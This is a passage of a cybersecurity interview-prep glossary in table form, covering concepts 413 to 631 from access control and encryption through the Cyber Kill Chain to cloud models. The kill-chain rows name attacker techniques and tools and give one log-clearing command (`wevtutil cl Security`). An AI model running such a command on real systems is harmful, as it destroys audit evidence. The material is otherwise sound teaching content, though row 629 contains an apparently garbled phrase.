| 413. Secure Session | Protecting session identifiers so they cannot be intercepted, stolen, or replayed by attackers. | Setting `HttpOnly` and `Secure` flags on session cookies |
| 414. Least Privilege | Giving users and services only the absolute minimum permissions required to perform their job. | Developer gets read access to logs, but no access to customer data |
| 415. Need-to-Know | Restricting access to sensitive information strictly to those whose current duties require it, regardless of clearance. | Only the lead investigator has access to a live forensic image |
| 416. RBAC (Role-Based) | Grouping permissions into defined roles and assigning users to the roles, rather than assigning permissions directly. | "Helpdesk" role has password reset rights; "Analyst" role only has read-access |
| 417. ABAC (Attribute-Based) | Making access decisions based on the context of the user, device, environment, and data sensitivity. | Allowing access only from a managed laptop during business hours |
| 418. MAC (Mandatory) | A strict access model where the system enforces clearance levels and labels; users cannot change permissions. | Top Secret data access using SELinux in government networks |
| 419. DAC (Discretionary) | An access model where the creator or owner of a file decides who else is allowed to access it. | Standard Windows NTFS file permissions where owner grants read/write |
| 420. Privilege Escalation Prevention | Controls that stop a user or process from gaining higher-level rights than they were initially assigned. | Removing local admin rights and enforcing UAC (User Account Control) |
| 421. Network Segmentation | Dividing a network into separate zones isolated by firewalls to prevent lateral movement. | Guest WiFi completely segregated from the corporate LAN |
| 422. Micro-segmentation | Isolating workloads down to the individual host or container level, usually in cloud or virtualised environments. | VMware NSX restricting a web server from talking to any other web server |
| 423. Zero Trust | Removing implicit trust; every access request is authenticated and authorised regardless of network location. | BeyondCorp model where enterprise apps are accessed without a VPN |
| 424. Firewall Config | Defining rule sets that block all traffic by default and explicitly allow only required business traffic. | Denying all inbound traffic except ports 80 and 443 |
| 425. IDS Config | Setting up sensors to monitor network traffic for malicious signatures or anomalous behaviour and generate alerts. | Snort or Suricata inspecting traffic on a SPAN port |
| 426. IPS Config | Deploying sensors inline so they can actively drop malicious packets before they reach the target. | Palo Alto threat prevention dropping an exploit payload |
| 427. Secure Network Design | Architecting the network with DMZs, segmentation, and choke points to isolate untrusted traffic. | Placing web servers in a DMZ and databases in a locked-down internal zone |
| 428. VPN Implementation | Creating an encrypted tunnel over the internet to allow remote workers secure access to internal systems. | OpenVPN or WireGuard terminating at a secure gateway |
| 429. Secure WiFi Setup | Protecting wireless networks using strong encryption, RADIUS authentication, and physical access controls. | WPA3-Enterprise authenticating clients against Active Directory |
| 430. WPA3 | The latest Wi-Fi security standard using Simultaneous Authentication of Equals (SAE) to defeat offline dictionary attacks. | Replacing WPA2-PSK to protect against KRACK attacks |

#### 🛡️ Encryption, Patching, and Monitoring (431–470)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 431. Encryption at Rest | Encrypting data while it is stored on disk so it cannot be read if the physical media is stolen. | BitLocker for Windows laptops or AES-256 for AWS S3 buckets |
| 432. Encryption in Transit | Encrypting data as it moves across a network to prevent interception and eavesdropping. | TLS 1.3 protecting HTTPS traffic between browser and server |
| 433. Full Disk Encryption | Encrypting the entire storage drive, including the OS, swap space, and temporary files. | FileVault 2 on macOS |
| 434. File-Level Encryption | Encrypting specific files or folders rather than the whole disk, allowing granular access controls. | EFS (Encrypting File System) on Windows or GPG for sensitive documents |
| 435. Key Management Policy | Rules governing how encryption keys are generated, stored, rotated, and destroyed securely. | Requiring asymmetric keys to be rotated annually |
| 436. Secure Key Storage | Storing cryptographic keys in isolated, tamper-resistant environments away from the data they encrypt. | AWS KMS or an on-premise Hardware Security Module (HSM) |
| 437. PKI (Public Key Infra) | The framework of hardware, software, roles, and policies needed to create, manage, and revoke digital certificates. | An internal Microsoft CA issuing certificates to corporate devices |
| 438. Certificate Management | Tracking the issuance and expiry of TLS certificates to prevent unexpected system outages. | Using Venafi to monitor and auto-renew certificates before expiry |
| 439. Secure Communication | Ensuring that endpoints verify each other's identity and encrypt their exchange securely. | Mutual TLS (mTLS) where both client and server present certificates |
| 440. HTTPS Enforcement | Forcing all web traffic to use secure TLS connections, preventing plaintext HTTP. | HSTS (HTTP Strict Transport Security) header |
| 441. Regular Updates | Applying routine software updates from vendors to quickly fix known vulnerabilities and bugs. | Windows Update pushing out fixes automatically |
| 442. Patch Management | A formal process of assessing, testing, and deploying updates across an enterprise without breaking applications. | Using Microsoft SCCM/Intune to ring-deploy patches to test groups first |
| 443. Vuln Scan Schedule | Running automated tools regularly to discover missing patches, misconfigurations, and known CVEs. | Weekly authenticated Nessus scanning of the server fleet |
| 444. Pen Test Routine | Hiring ethical hackers to manually exploit systems in a controlled way to find deep logical flaws scanners miss. | An annual web application pentest before a major release |
| 445. Security Audit | An independent evaluation of an organisation's adherence to security policies, controls, and standards. | SOC 2 Type II audit reviewing access control evidence |
| 446. Compliance Verification | Checking that technical settings continuously align with regulatory or framework requirements. | Automated checking of AWS accounts against CIS Foundations Benchmark |
| 447. Risk Assessment | Identifying assets, evaluating threats and vulnerabilities, and calculating the potential impact to the business. | Analysing the risk of a ransomware attack on the core database |
| 448. Risk Mitigation | Implementing security controls to reduce the likelihood or impact of a risk to an acceptable level. | Deploying EDR and offline backups to mitigate ransomware risk |
| 449. Security Monitoring | Continuously collecting and reviewing telemetry from across the environment to spot malicious activity. | 24/7 SOC analysts reviewing Splunk dashboards |
| 450. Log Management | Centralising, protecting, and retaining audit logs so they are available for detection and forensic investigation. | Forwarding all syslogs to a central ELK cluster |
| 451. Incident Detection | Identifying the initial signals that a security breach or policy violation may have occurred. | SIEM generating an alert for "Impossible Travel" |
| 452. Incident Response Plan | Documented procedures defining roles, communication, and step-by-step actions during a cyber crisis. | The corporate ransomware playbook |
| 453. Incident Reporting | The process of notifying internal stakeholders and external regulators about a significant breach. | Informing the ICO within 72 hours under GDPR requirements |
| 454. Incident Analysis | Investigating the scope, root cause, and timeline of an attack to inform containment strategies. | Timeline analysis of EDR logs to see what the attacker executing |
| 455. Threat Intel | Actionable information about attacker motives, infrastructure, and techniques used to proactively defend networks. | Ingesting a Mandiant feed of known-bad C2 IPs into the firewall |
| 456. Threat Hunting | Proactively searching through telemetry to find hidden threats that bypassed automated security alerts. | Searching EDR data for unusual PowerShell executions masking as legitimate admin work |
| 457. Malware Detection | Identifying malicious software on a system using signatures, heuristics, or behavioural analysis. | Antivirus flagging a file because its hash matches a known trojan |
| 458. Malware Prevention | Controls built to stop malicious code from executing or being delivered in the first place. | Application control (allow-listing) blocking all unapproved executables |
| 459. Backup Strategy | Designing backups to ensure data can be recovered even if the primary storage and network are compromised. | 3-2-1 rule: 3 copies, 2 media types, 1 offsite/immutable |
| 460. Data Recovery Plan | The technical steps required to restore systems and data from backups to resume normal operations. | Restoring the payroll database from a snapshot within a 4-hour RTO |

#### 🏢 Physical, Training & Governance (461–500)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 461. Disaster Recovery | The technical processes and systems used to restore IT infrastructure after a catastrophic failure or event. | Failing over to a hot standby site in a different geographic region |
| 462. Business Continuity | The overarching plan that ensures critical business functions can continue operating during a major disruption. | Moving customer service calls to a backup call centre while IT is down |
| 463. Redundancy | Having duplicate critical components so that if one fails, the system continues to operate without interruption. | RAID 1 for hard drives; dual power supplies in a server |
| 464. Failover Systems | The automatic or manual switching to a redundant system when the primary system goes offline. | Active-passive database cluster switching to the passive node |
| 465. High Availability | Designing a system to remain operational and accessible for an extremely high percentage of time (e.g., 99.999%). | Deploying web servers behind a load balancer across three availability zones |
| 466. Physical Security | Protecting facilities, hardware, and people from physical threats like theft, vandalism, or unauthorised access. | Fences, locks, mantraps, and security guards |
| 467. Access Card System | Using electronic badges to restrict and audit physical entry to buildings and secure zones. | RFID readers logging every time an employee enters the server room |
| 468. CCTV Monitoring | Using video cameras to observe, record, and deter unauthorised access to sensitive physical locations. | Cameras covering the data centre entrances and loading docks |
| 469. Security Guards | Personnel trained to verify identities, monitor physical perimeters, and respond to physical security alarms. | 24/7 security desk checking IDs before allowing building access |
| 470. Secure Data Centre | A facility built specifically to house computing equipment securely, with power, cooling, and access controls. | Raised floors, biometric access, fire suppression, and dual-feed power |
| 471. Security Training | Educating staff on security policies and safe practices to reduce human-error risks. | Annual mandatory security awareness modules for all employees |
| 472. Phishing Awareness | Training users to recognise malicious emails, suspicious links, and social engineering tactics. | Running simulated phishing campaigns via KnowBe4 |
| 473. SE Prevention | Controls designed to prevent attackers from manipulating staff into breaking security procedures. | Strict policy requiring visual confirmation for any password reset |
| 474. Secure Coding | Writing software in a way that inherently avoids introducing common vulnerabilities like SQL injection or buffer overflows. | Following the OWASP Top 10 guidelines during development |
| 475. Input Validation | Ensuring that data entered by a user exactly matches expected formats before it is processed by the application. | Rejecting a username that contains special characters to prevent SQLi |
| 476. Output Encoding | Converting user-supplied data into a safe format before displaying it in a browser to prevent code execution. | Encoding `<script>` as `&lt;script&gt;` to prevent Cross-Site Scripting (XSS) |
| 477. Error Handling | Catching application errors cleanly without displaying sensitive system details to the user. | Showing a generic "An error occurred" page instead of a Java stack trace |
| 478. Code Review | Another developer or security engineer evaluating source code to find bugs and vulnerabilities before release. | GitHub pull request requiring approval before merging to main |
| 479. DevSecOps | Integrating security testing and controls seamlessly into the continuous integration and delivery (CI/CD) pipeline. | Running automated static analysis (SAST) on every code commit |
| 480. Secure SDLC | Embedding security activities—like threat modelling and pentesting—into every phase of software development. | Performing architecture threat modelling during the design phase |
| 481. API Security | Protecting application programming interfaces from unauthorised access, data scraping, and injection attacks. | Requiring OAuth 2.0 tokens and enforcing rate limits on the API Gateway |
| 482. Web App Security | Defending web applications against vulnerabilities, attacks, and abuse over the internet. | Deploying a Web Application Firewall (WAF) to block malicious web requests |
| 483. DB Security | Securing databases against unauthorised access, exfiltration, and destructive commands. | Encrypting databases at rest (TDE) and enforcing strict role-based access |
| 484. Cloud Security | Protecting data, applications, and infrastructure hosted in public, private, or hybrid cloud environments. | Using AWS Security Hub and enforcing secure IAM policies |
| 485. Container Security | Securing the container image, runtime environment, and orchestration platform against exploitation. | Scanning Docker images for vulnerabilities with Trivy before deployment |
| 486. Mobile Security | Securing smartphones and tablets against data leakage, loss, and malicious applications. | Using Mobile Device Management (MDM) to enforce PINs and remote wipe |
| 487. Endpoint Protection | Modern security software that combines antivirus, EDR, and firewall to defend user devices and servers. | Deploying SentinelOne to all corporate laptops |
| 488. Remote Access | Providing a secure method for users to securely connect to the corporate network from outside locations. | A VPN requiring MFA and checking the device posture before connecting |
| 489. Email Security | Protecting the organisation from email-borne threats like phishing, malware attachments, and spoofing. | Setting up DMARC to prevent domain spoofing and using Proofpoint for filtering |
| 490. DLP (Data Loss Prev.) | Tools and processes that monitor and block sensitive data from leaving the corporate boundary. | Blocking the transfer of credit card numbers to USB drives or personal webmail |
| 491. Privacy Protection | Safeguarding personally identifiable information (PII) to ensure it is handled lawfully and ethically. | Implementing data minimisation processes so unnecessary user data is deleted |
| 492. Data Classification | Categorising data based on its sensitivity so appropriate security controls can be applied. | Labelling documents as Public, Internal, Confidential, or Restricted |
| 493. Data Retention | Enforcing policies that dictate exactly how long data must be kept for legal reasons, and when it must be destroyed. | Deleting financial records securely after the required 7-year holding period |
| 494. Secure Disposal | Permanently destroying data and physical media so it cannot be recovered by attackers or scavengers. | Cryptographically wiping disks and physically shredding hard drives |
| 495. Audit Logging | Generating unalterable records of critical security events, access changes, and administrative actions. | Logging every time a user is added to the Domain Admins group |
| 496. Compliance Monitoring | Continuously checking that IT systems adhere to internal policies and external regulatory requirements. | Using CSPM tools to ensure cloud storage remains private and encrypted |
| 497. Governance Policy | High-level directives from management that dictate how security will be managed and enforced in the organisation. | An Acceptable Use Policy signed by all employees upon hiring |
| 498. Security Framework | A structured set of guidelines and best practices used to build and measure a comprehensive security programme. | Adopting the NIST Cybersecurity Framework (CSF) to organise defensive capabilities |
| 499. Continuous Monitoring | The ongoing, real-time observation of the IT environment to quickly detect threats, misconfigurations, or failures. | A 24/7 SOC monitoring SIEM alerts and endpoint telemetry |
| 500. Security Improvement | The iterative process of learning from incidents, audits, and metrics to continually strengthen defences. | Updating incident runbooks after a tabletop exercise reveals a communication gap |

### Domains & Kill Chain (501–600)

!!! note "Format: Point & Concept → Interview Answer → Example / Tool"
    Each row gives you a clean definition you can say in an interview, plus a real-world example or tool.

---

#### 🏢 Security Domains (501–550)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 501. Network Security | Protecting the confidentiality, integrity, and availability of data as it moves across or sits within networks. | VLANs, firewalls, IDS/IPS, and network segmentation |
| 502. Application Security | Discipline focused on building and testing software so vulnerabilities are prevented, found, and fixed throughout its lifecycle. | SAST, DAST, dependency scanning, and secure code review |
| 503. Cloud Security | Protecting cloud workloads, identities, configurations, and data under the shared responsibility model. | AWS Security Hub, Defender for Cloud, cloud CSPM tools |
| 504. Endpoint Security | Detecting and preventing threats on user devices, servers, and workstations using behaviour-based controls. | CrowdStrike Falcon, SentinelOne, Microsoft Defender |
| 505. Mobile Security | Protecting mobile devices, apps, and data from malware, data leakage, and unauthorised access. | MDM policy enforcement plus mobile app attestation |
| 506. IoT Security | Protecting connected devices, firmware, telemetry channels, and management interfaces from abuse and takeover. | Signed firmware, device identity certificates, network isolation |
| 507. Data Security | Keeping data confidential, accurate, and available through classification, encryption, access control, and retention rules. | Azure Purview labels, AES-256, role-based access |
| 508. Identity Management | Provisioning, governing, and deprovisioning digital identities and their access rights over time. | Okta lifecycle management, Microsoft Entra ID |
| 509. Access Management | Determining and enforcing which identities can access which resources, from where, and under what conditions. | Conditional Access policies, zero trust access controls |
| 510. Risk Management | Identifying, assessing, prioritising, and treating security risks so the business makes informed decisions about acceptable exposure. | NIST RMF, FAIR model, business impact workshops |
| 511. Governance | Oversight structure that sets security direction, assigns accountability, and aligns security decisions with business objectives. | Security steering committee with named policy owners |
| 512. Compliance | Meeting legal, regulatory, contractual, or policy obligations and being able to prove it with evidence. | Passing a PCI DSS QSA assessment with documented controls |
| 513. Incident Response | Coordinated actions to detect, contain, eradicate, and recover from security events while minimising business impact. | PICERL lifecycle using TheHive, XSOAR, or Jira |
| 514. Threat Intelligence | Curated knowledge about adversary infrastructure, TTPs, and indicators used to improve defence and investigation. | MISP feeds, Recorded Future, MITRE ATT&CK mapping |
| 515. Digital Forensics | Collecting and analysing digital evidence in a way that preserves integrity and maintains a legal chain of custody. | Volatility for memory forensics; Autopsy for disk analysis |
| 516. Cryptography | Mathematical techniques — encryption, hashing, and digital signatures — that protect data and verify trust. | AES-256 for storage, TLS 1.3 for transit, RSA for signatures |
| 517. Physical Security | Protecting facilities, hardware, and physical access points from unauthorised entry, theft, or damage. | Mantraps, RFID badge access, CCTV on server room entry |
| 518. Operational Security | Protecting day-to-day processes and handling practices so sensitive operational details are not leaked or misused. | Restricting internal topology diagrams and change schedules |
| 519. Business Continuity | Planning and capability that keeps critical business functions operating during a disruption or disaster. | Manual fallback procedures, alternate processing sites |
| 520. Disaster Recovery | Technical process of restoring systems, applications, and data after a major failure or destructive event. | Restore core infrastructure in a secondary region within RTO |
| 521. Security Architecture | High-level design of how controls, trust boundaries, data flows, and systems fit together to reduce risk. | Reference architecture showing IAM, segmentation, and logging |
| 522. Security Engineering | Building and maintaining technical controls, secure platforms, and integrations that implement the architecture. | Deploying SSO, SIEM pipelines, and EDR at enterprise scale |
| 523. Security Operations | Day-to-day monitoring, alert triage, investigation, and response executed by the SOC or security team. | L1 triage, L2 investigation, L3 threat hunting in the SOC |
| 524. Security Analytics | Applying statistical and ML methods to large security datasets to identify patterns and anomalies humans would miss. | UEBA flagging impossible travel or unusual admin activity |
| 525. Security Monitoring | Continuous collection, review, and alerting on telemetry to detect misuse, control failure, or drift in near real time. | Splunk dashboards, Microsoft Sentinel analytics rules |
| 526. Security Testing | Activities that validate whether systems are secure and controls actually work under attack conditions. | Penetration tests, red team exercises, SAST, configuration review |
| 527. Vulnerability Management | Ongoing programme for discovering, prioritising, remediating, and verifying security weaknesses across the environment. | Weekly Nessus scan results tracked to remediation SLA |
| 528. Patch Management | Process for testing and deploying vendor-released fixes to eliminate known vulnerabilities across systems. | WSUS, Microsoft Intune, or Ansible for patch automation |
| 529. Configuration Management | Defining approved secure baselines, controlling changes, and detecting drift from those baselines. | Group Policy enforcing hardened OS builds across the fleet |
| 530. Asset Management | Maintaining an accurate, up-to-date inventory of all systems, software, owners, and criticality ratings. | CMDB linked to endpoint discovery and owner assignments |
| 531. Identity Federation | Trust relationship that allows an identity provider in one organisation to authenticate users into another's systems. | SAML 2.0 trust between enterprise Entra ID and a partner's SaaS |
| 532. Access Control | Determining and enforcing who can access resources, what they can do, and what context is required. | RBAC in IAM; Conditional Access requiring compliant device |
| 533. Authentication | Verifying that a user, device, or service is genuinely who or what it claims to be. | Password plus FIDO2 hardware key |
| 534. Authorization | Deciding what an authenticated identity is permitted to access or do, based on roles or attributes. | IAM role granting read-only access to CloudWatch logs |
| 535. Accounting | Recording what authenticated identities actually did so activity can be audited and investigated. | AAA server logging admin commands on network devices |
| 536. Secure Development | Writing and reviewing code with security requirements in mind from the start, not added at the end. | Threat modeling in design phase, SAST in CI, pentest pre-release |
| 537. DevSecOps | Integrating security checks and controls directly into developer workflows and CI/CD pipelines. | GitHub Advanced Security blocking a push with leaked credentials |
| 538. API Security | Protecting APIs from unauthorised access, injection attacks, excessive data exposure, and request abuse. | API gateway enforcing OAuth 2.0, schema validation, rate limits |
| 539. Database Security | Protecting databases from injection, unauthorised access, privilege abuse, and data theft. | Least-privilege DB roles, TDE encryption, query monitoring |
| 540. Web Security | Securing browser-facing applications and HTTP services from injection, session attacks, and abuse. | WAF, Content Security Policy, server-side input validation |
| 541. Email Security | Stopping phishing, spoofing, malware attachments, and spam before they reach users. | Proofpoint or Mimecast with DMARC, DKIM, and SPF enforcement |
| 542. Endpoint Detection | Monitoring endpoints continuously for behavioural indicators of compromise and raising alerts for investigation. | CrowdStrike Falcon detecting a living-off-the-land PowerShell |
| 543. Network Detection | Identifying malicious traffic patterns, anomalous flows, and lateral movement on the network. | Zeek or Suricata flagging DNS tunnelling or C2 beaconing |
| 544. Cloud Workload Security | Protecting virtual machines, containers, and serverless functions running in cloud environments. | Trivy scanning container images; Defender for Servers on VMs |
| 545. Container Security | Scanning images for vulnerabilities, hardening runtime settings, and monitoring container behaviour. | Trivy, Falco, and admission policies via OPA Gatekeeper |
| 546. Kubernetes Security | Applying RBAC, network policies, pod security, admission control, and runtime monitoring in Kubernetes. | kube-bench for CIS benchmark; Falco for runtime alerts |
| 547. SIEM Domain | Security function centred on centralised log analytics, correlation, and detection — the brain of the SOC. | Splunk ES or Microsoft Sentinel running detection rules |
| 548. SOAR Domain | Security function focused on automating response actions triggered by SIEM or other alerts via playbooks. | Cortex XSOAR playbook auto-isolating a host on EDR alert |
| 549. Threat Hunting | Proactive, hypothesis-driven search for attacker behaviour that automated detections have not yet caught. | Hunter searches EDR data for suspicious WMI use and LOLbins |
| 550. Purple Teaming | Collaborative exercise where offensive and defensive teams work together to test and improve detections simultaneously. | Red team runs ATT&CK technique; blue team tunes SIEM rule live |

---

#### ⚙️ Cyber Kill Chain — All Seven Phases (551–600)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 551. Reconnaissance Phase | First kill-chain stage — the attacker researches targets to understand the attack surface before acting. | WHOIS, LinkedIn, Shodan, DNS enumeration |
| 552. Target Identification | Selecting which specific users, systems, or assets to focus on based on reconnaissance findings. | Finance VPN gateway and CFO's email chosen as high-value targets |
| 553. Information Gathering | Collecting details about people, systems, services, and exposures before choosing an attack path. | GitHub leaks, job adverts, and public DNS records |
| 554. OSINT Collection | Gathering intelligence from publicly available sources without touching the target's systems. | Shodan, LinkedIn, Censys, Google Dorking |
| 555. Social Recon | Using open sources to learn personal details about targets to make social-engineering lures more convincing. | Researching a target on LinkedIn before crafting a spear-phish |
| 556. Scanning Phase | Active probing of hosts, ports, and services to map the attack surface and find entry points. | Nmap port scan; banner grabbing on exposed services |
| 557. Footprinting | Building a profile of the target's external systems, domains, and infrastructure. | Mapping IP ranges, hostnames, and ASN ownership |
| 558. Network Scanning | Automated discovery of live hosts, open ports, and reachable services on a network. | Nmap scan showing RDP exposed on 3389, SSH on 22 |
| 559. Port Scanning | Probing specific ports to determine which services are running and potentially exploitable. | Masscan fast-scanning an entire /16 for open 443 |
| 560. Vulnerability Identification | Finding specific flaws, misconfigurations, or missing patches that can be exploited. | Nessus scan revealing CVE-2021-44228 (Log4Shell) on a server |
| 561. Weaponisation | Preparing a deliverable payload by combining an exploit with malware — before any contact with the target. | Macro document containing PowerShell downloader |
| 562. Malware Preparation | Building, obfuscating, or adapting malware so it evades defences and executes reliably on the target. | Encoding shellcode to bypass signature detection |
| 563. Payload Preparation | Creating or configuring the specific malicious code that runs after the exploit achieves execution. | Configuring a Cobalt Strike beacon with attacker C2 address |
| 564. Exploit Development | Writing or adapting code that reliably triggers a vulnerability and gives the attacker code execution. | Developing a reliable PoC for a buffer-overflow vulnerability |
| 565. Attack Planning | Organising targets, lures, infrastructure, tooling, and timing before launching the operation. | Setting up phishing domains, C2 servers, and payload staging |
| 566. Delivery Phase | Sending the weaponised payload or lure to the target environment — the first active contact point. | Phishing email with malicious attachment or link |
| 567. Phishing Delivery | Sending deceptive emails or messages designed to trick users into clicking or opening malicious content. | Spoofed Microsoft 365 login prompt email |
| 568. Attachment Delivery | Sending a malicious file so the recipient opens it and triggers the payload. | Spear-phish with weaponised Excel spreadsheet |
| 569. Drive-by Download | Infecting a user simply by visiting a webpage that hosts malicious code or redirects to an exploit kit. | Booby-trapped news site using a browser exploit |
| 570. USB Delivery | Using removable media as the delivery mechanism — left in car parks or mailed to targets. | Labelled USB drop: "Salary Review 2025.xlsx" |
| 571. Exploitation Phase | Triggering the vulnerability or user action to achieve code execution or access on the target. | Macro enabled → PowerShell downloads second stage |
| 572. Vulnerability Exploitation | Abusing a specific flaw to gain access or execution beyond what is normally permitted. | EternalBlue exploiting SMBv1 to run arbitrary code |
| 573. Code Execution | Running attacker-chosen commands or binaries on the victim system after exploitation. | netcat reverse shell executing commands on the target server |
| 574. Privilege Escalation | Gaining higher-level access than the initial foothold provides. | Token impersonation to move from user to SYSTEM |
| 575. System Compromise | State where the attacker has control over a system or identity beyond their authorised scope. | Domain admin credentials extracted from memory with Mimikatz |
| 576. Installation Phase | Placing malware, backdoors, or persistence mechanisms on the compromised system. | Scheduled task and registry run key added for persistence |
| 577. Malware Installation | Dropping executable malware onto the host and ensuring it runs on startup or trigger. | Ransomware binary copied to startup folder |
| 578. Backdoor Installation | Creating a hidden, durable access method so the attacker can return without re-exploiting. | Web shell dropped at `/uploads/update.php` on the server |
| 579. Persistence Mechanism | Any technique that keeps attacker access alive across reboots, logouts, or initial remediation attempts. | Malicious Windows service configured to start automatically |
| 580. System Modification | Changing system files, registry keys, services, or scheduled tasks to support persistence or evasion. | Registry run key pointing to attacker binary |
| 581. C2 Phase | Stage where the compromised host communicates with attacker infrastructure to receive commands. | Cobalt Strike beacon sending heartbeat over HTTPS every 60s |
| 582. C2 Server | Attacker-controlled infrastructure that issues commands to compromised hosts and receives their output. | VPS behind Cloudflare hosting a Cobalt Strike team server |
| 583. Botnet Communication | Network of compromised hosts all checking in with a C2 server for coordinated instructions. | 50,000 infected hosts polling a C2 for spam or DDoS commands |
| 584. Exfiltration Channel | The path used to move stolen data from the target environment to attacker-controlled storage. | DNS tunnelling exfiltrating data as encoded subdomains |
| 585. Encrypted C2 | Command-and-control traffic protected by encryption to blend with normal HTTPS and evade inspection. | Beacon using malleable C2 profile mimicking legitimate CDN traffic |
| 586. Actions on Objectives | Final kill-chain stage — the attacker executes their primary goal after achieving access and persistence. | Data exfiltration followed by ransomware deployment |
| 587. Data Theft | Copying and exfiltrating sensitive files, credentials, or intellectual property to attacker infrastructure. | 4 TB of source code transferred to an attacker S3 bucket |
| 588. System Damage | Intentionally corrupting, destroying, or wiping data and systems to cause disruption. | Wiper malware erasing the MBR on all domain-joined hosts |
| 589. Service Disruption | Interrupting normal operation of a system, application, or business process. | Ransomware encrypting file shares making payroll system unavailable |
| 590. Financial Fraud | Deceiving victims or systems to steal money or divert payments. | Business email compromise diverting supplier payment to attacker account |
| 591. Lateral Movement | Moving from the first compromised system to other internal targets using stolen credentials or exploits. | PsExec with admin hash to open a shell on the file server |
| 592. Internal Reconnaissance | Mapping internal systems, users, and trust relationships after initial access. | BloodHound graphing Active Directory paths to Domain Admin |
| 593. Credential Harvesting | Collecting passwords, hashes, tokens, or session cookies to authenticate as legitimate users. | Mimikatz dumping LSASS memory for NTLM hashes |
| 594. Internal Privilege Escalation | Gaining higher privileges within the internal environment after the initial foothold is established. | UAC bypass escalating from standard user to local admin |
| 595. Data Exfiltration | Transferring collected data out of the target environment to attacker-controlled locations. | SCP of compressed archive to attacker server over port 443 |
| 596. Covering Tracks | Erasing evidence of the attack to slow investigation and delay remediation. | Clearing Windows Event Log and deleting attacker tools |
| 597. Log Deletion | Deleting or tampering with audit logs to remove evidence of attacker actions. | `wevtutil cl Security` clearing Security event log |
| 598. Persistence Maintenance | Checking and restoring persistence mechanisms if defenders remove them. | Attacker reinstalls backdoor after partial remediation |
| 599. Attack Completion | Stage where the attacker has achieved the primary objective and begins disengaging or preparing exit. | Exfiltration complete; ransomware deployed; tools removed |
| 600. Post-Attack Analysis | Review performed by defenders after the attack to understand timeline, root cause, and missed detections. | After-action report mapping attacker timeline to detection gaps |

### Cloud & Infrastructure (601–700)

!!! note "Format: Point & Concept → Interview Answer → Example / Tool"
    Each row gives you a clean definition you can say in an interview, plus a real-world example or tool.

---

#### ☁️ Cloud Models & Responsibility (601–640)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 601. Cloud Computing | Delivering computing services (servers, storage, databases, networks) over the internet "on-demand" with pay-as-you-go pricing. | AWS, Azure, Google Cloud (GCP) |
| 602. Shared Responsibility Model | A framework dictating that the provider secures the cloud infrastructure, while the customer secures the data and apps *in* the cloud. | AWS secures physical data centres; you secure your S3 bucket |
| 603. IaaS (Infrastructure) | The cloud provider gives you the raw virtual hardware (VMs, networking); you manage the OS, runtime, and apps. | AWS EC2 or Azure Virtual Machines |
| 604. PaaS (Platform) | The provider manages the underlying infrastructure and OS; you just deploy your application code. | AWS Elastic Beanstalk or Azure App Service |
| 605. SaaS (Software) | The provider manages everything from the infrastructure to the app; you just configure settings and manage users. | Microsoft 365, Salesforce, or GitHub |
| 606. Public Cloud | Infrastructure shared by multiple customers (tenants) over the public internet. | A standard AWS or Azure environment |
| 607. Private Cloud | Cloud infrastructure dedicated entirely to a single organisation, hosted on-premise or by a third party. | VMware vSphere or an Azure Stack on-premise |
| 608. Hybrid Cloud | A mix of on-premise infrastructure and public cloud services, connected by a secure or dedicated link. | On-premise Active Directory synced with Entra ID |
| 609. Multi-Cloud | Using services from more than one public cloud provider to avoid lock-in or leverage specific features. | Using AWS for compute and GCP for BigQuery analytics |
| 610. Cloud Deployment Model | The model defining where the infrastructure resides and who has access to it (Public, Private, Hybrid, Community). | Moving from a Private Cloud to a Hybrid Deployment |
| 611. Provider Responsibility | The physical security of data centres, hardware host patching, and hypervisor isolation. | AWS replacing a failed hard drive |
| 612. Customer Responsibility | The security of guest OS patching, firewall rules, IAM configurations, and data encryption. | Updating Windows on an EC2 instance and configuring Security Groups |
| 613. Cloud Elasticity | The ability of a cloud environment to automatically provision and de-provision resources to match fluctuating demand. | Auto Scaling Group adding 5 VMs during a Black Friday sale |
| 614. Resource Pooling | The provider's ability to serve multiple customers from the same physical hardware using multi-tenancy. | Ten different customer VMs running securely on one physical AWS host |
| 615. Broad Network Access | Cloud services are accessible from anywhere via standard internet protocols and devices. | Logging into the Azure Portal from a laptop over HTTPS |
| 616. Serverless Computing | A cloud execution model where the provider dynamically manages the allocation and provisioning of servers; the customer only pays for the execution time of their code. | AWS Lambda or Azure Functions executing a piece of code upon an API request |
| 617. Containers | Lightweight, standalone, executable packages of software that include everything needed to run an application. | A Docker container running an Nginx web server |
| 618. Kubernetes (K8s) | An open-source system for automating the deployment, scaling, and management of containerised applications. | A K8s cluster managing the lifecycle of 50 Docker containers |
| 619. Container Registry | A repository for storing and distributing container images securely. | AWS ECR, Docker Hub, or Azure Container Registry |
| 620. Ephemeral Compute | Virtual machines or containers that are spun up dynamically to perform a task and destroyed when the task completes. | Spot instances processing a batch job and shutting down |
| 621. Cloud Native | Building applications specifically designed to leverage cloud computing architectures like microservices and serverless. | A web app built with Lambda functions and DynamoDB |
| 622. Microservices | An architectural style that structures an application as a collection of loosely coupled, independently deployable services. | A shopping app where the cart, payment, and inventory are separate services |
| 623. Infrastructure as Code (IaC) | Managing and provisioning data centres through machine-readable definition files, rather than physical hardware configuration. | Terraform creating 10 VMs and a load balancer with a single script |
| 624. Immutable Infrastructure | An approach to managing services where components 
are replaced rather than changed once they have been deployed. | Triggering a Terraform script to deploy a new server and destroying the old server instead of updating the existing one |
| 625. Cloud Lock-in | The difficulty of moving an application or data from one cloud provider to another due to dependence on proprietary services. | Being unable to easily migrate off AWS Lambda due to heavy use of AWS Step Functions |
| 626. High Availability (HA) in Cloud | Designing infrastructure across multiple physically separate locations to ensure continuous operation. | Deploying web servers across three AWS Availability Zones (AZs) |
| 627. Availability Zone (AZ) | One or more discrete data centres with redundant power, networking, and connectivity within a cloud region. | AWS `us-east-1a` |
| 628. Cloud Region | A geographic area containing two or more Availability Zones. | Azure `UK South` (London) |
| 629. Edge Computing | Processing data near the edge of your network, where the data is being generated, instead of in an artificial intelligence cloud. | An IoT device doing local video analysis before sending summaries to AWS |
| 630. CDN (Content Delivery Network) | A geographically distributed network of proxy servers and their data centres. | Cloudflare caching images in Sydney to serve Australian users faster |
| 631. Cloud Firewalls | Virtualised network security devices that control traffic to and from cloud resources. | AWS Security Groups acting as stateful firewalls per EC2 instance |
